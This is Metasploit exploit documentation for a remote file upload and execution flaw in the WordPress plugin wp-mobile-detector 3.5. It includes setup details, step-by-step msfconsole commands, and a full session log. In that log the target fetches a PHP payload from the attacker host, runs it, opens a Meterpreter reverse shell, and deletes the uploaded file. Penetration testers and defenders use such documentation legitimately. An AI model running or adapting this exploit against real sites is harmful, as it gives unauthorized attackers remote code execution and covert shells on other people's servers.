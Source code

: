 ## Vulnerable Application

  wp-mobile-detector is a wordpress plugin which was removed from the wordpress site after this vulnerability
  was disclosed.  Version 3.5 and earlier can be directed to upload a file from a remote web server, and then
  the file can be executed by the client.

  Download [wp-mobile-detector](https://www.exploit-db.com/apps/bf8bdbac0b01e14788aa2d4a0d9c6971-wp-mobile-detector.3.5.zip)
  from Exploit-db since wordpress removed it.

  Due to its age, it may be difficult to install.  The install for the scenario later is:

  * Ubuntu 16.04.2
  * Apache 2.4.18
  * PHP 7
  * Wordpress 4.4.2

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/unix/webapp/wp_mobile_detector_upload_execute```
  4. Do: ```set rhost [ip]```
  5. Do: ```set lhost [ip]```
  6. Do: ```set srvhost [ip]```
  7. Do: ```exploit```
  8. You should get a shell.

## Scenarios

### wp-mobile-detector 3.5 on Wordpress 4.4.2

  ```
  msf > use exploit/unix/webapp/wp_mobile_detector_upload_execute 
  msf exploit(wp_mobile_detector_upload_execute) > set rhost 2.2.2.2
  rhost => 2.2.2.2
  msf exploit(wp_mobile_detector_upload_execute) > set TARGETURI /wordpress/
  TARGETURI => /wordpress/
  msf exploit(wp_mobile_detector_upload_execute) > check
  [*] 2.2.2.2:80 The target appears to be vulnerable.
  msf exploit(wp_mobile_detector_upload_execute) > set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  smsf exploit(wp_mobile_detector_upload_execute) > set lhost 1.1.1.1
  lhost => 1.1.1.1
  msf exploit(wp_mobile_detector_upload_execute) > set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  msf exploit(wp_mobile_detector_upload_execute) > exploit
  [*] Exploit running as background job 2.
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  msf exploit(wp_mobile_detector_upload_execute) > [*] Starting Payload Server
  [*] Using URL: http://1.1.1.1:8080/ZWTgqwsiFL.php
  [*] Uploading payload via /wordpress/wp-content/plugins/wp-mobile-detector/resize.php?src=http://1.1.1.1:8080/ZWTgqwsiFL.php
  [+] Payload requested on server, sending
  [+] Sleeping 5 seconds for payload upload
  [*] Executing the payload via /wordpress/wp-content/plugins/wp-mobile-detector/cache/ZWTgqwsiFL.php
  [*] Sending stage (37514 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:47064) at 2017-10-20 22:54:04 -0400
  [+] Deleted ZWTgqwsiFL.php
  [*] Server stopped.
  ```
